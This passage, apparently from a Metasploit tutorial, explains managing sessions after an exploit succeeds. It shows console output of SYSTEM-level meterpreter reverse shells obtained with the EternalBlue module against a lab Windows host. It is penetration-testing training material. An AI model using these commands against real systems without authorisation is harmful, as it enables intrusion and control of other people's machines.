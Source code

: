 This will return you the context prompt from which you have run the exploit. Some modules support the `check` option. This will check if the target system is vulnerable without exploiting it.
## Sessions

Once a vulnerability has been successfully exploited, a session will be created. This is the communication channel established between the target system and Metasploit.

You can use the `background` command to background the session prompt and go back to the `msfconsole` prompt. 

```shell-session
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```

Alternatively, `CTRL+Z` can be used to background sessions.
The `sessions` command can be used from the `msfconsole` prompt or any context to see the existing sessions.

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)

msf6 exploit(windows/smb/ms17_010_eternalblue) > back
msf6 > sessions 

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)

msf6 >
```

To interact with any session, you can use the `sessions -i` command followed by the desired session number.

```shell-session
msf6 > sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)

msf6 > sessions -i 2
[*] Starting interaction with 2...
```